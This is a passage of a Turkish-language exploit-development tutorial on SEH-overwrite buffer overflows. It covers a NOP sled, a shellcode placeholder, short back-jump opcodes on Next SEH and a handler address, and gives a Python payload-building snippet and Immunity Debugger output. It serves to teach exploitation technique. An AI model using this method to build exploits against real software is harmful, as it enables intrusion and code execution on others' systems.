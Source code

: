 Önceki mantığın biraz değişiği. Bu defa önce nop ve shellcodeu yazıyor, ardından SEH üzerine yazıyoruz. Şimdi yapmamız gereken şey ise Next SEH'den önce, yani shellcodeun hemen altına NOPların bulunduğu kısma atlayan bir **jmp** kodu yazmak, ardından Next SEH üstüne de bu **jmp** koduna atlayan bir **jmp** kodu yazmak. Bu sayede SE Handler üzerine yazdığımız `call ebp+30` bizi tekrar Next SEH'e, Next SEH ise bizi noplara atlayan **jmp** instructionuna, bu atlama kodu da bizi haliyle shellcode'a getirecek. Yani şu şekilde olacak:

	______________
	|            |
	| NOPLAR     |  <-----|
	|____________|        |
	|            |        |
	| Shellcode  |        |
	--------------        |
	| JMP TO NOP |<-|  ----
	|____________|  |
	| Next SEH   | -- <-|
	|------------|      |
	| SE Handler |-------
	--------------

Şimdi bu işi koda dökelim bakalım. Şimdi burada biraz kafa karışıklığı yaşayabilirsiniz. Öncelikle bizim Shellcodemuzun sonunda olan jmp'a atlamak için 7 bytelık bir back jmp opcodeuna ihtiyacımız var. Bu `EB F9` opcodu ile bunu yapabiliyoruz. Ardından shellcodemuzun sonuna bizim en başta bulunan noplara atlamızı sağlayacak bir back jump daha yazmamız gerekiyor. Bunu bulmak için Immunity debugger kullanacağız. Şimdi, Öncelikle buraya kadarı için gereken python scriptini görelim.

	boyut = 524                                          #524 oldu çünkü alta 4 byte jmp kodu ekledik
	cokertkaarsim  = "\x90" * 24
	cokertkaarsim += "\xcc\xcc"                          #Shellcode buraya gelecek
	cokertkaarsim += "\x90" * (boyut-len(cokertkaarsim ))#SEH'e kadar NOP ekleyelim
	cokertkaarsim += "\xcc\xcc\xcc\xcc"                  #Yeni Jump (528-4)
	cokertkaarsim += "\xeb\xf9\x90\x90"                  #Jump Back 7 Byte (Next SEH)
	cokertkaarsim += struct.pack('<I', 0x00270b0b)       #call dword ptr [ebp+30h] (SE Handler)

Şimdi programı Immunity debuggerda açıp exploiti çalıştırıyoruz, ardından `CTRL+G` ile `0012fd98` adresine gidiyoruz. Burada bizim Jump back 7 byte bulunuyor, yani next seh. Ardından Buranın adresi ile, shellcodemuzun üstünde bulunan nopların adresi arasındaki farkı bulup, bunu opcodeunu oluşturuyoruz.

Adreste şöyle bir şey görmeniz gerekiyor:

	0012FD96   CC             INT3
	0012FD97   CC             INT3   ---> Buraya NOPlara giden JUMP gelecek
	-> 0012FD98  ^EB F9       JMP SHORT 0012FD93
	0012FD9A   90             NOP
	0012FD9B   90             NOP
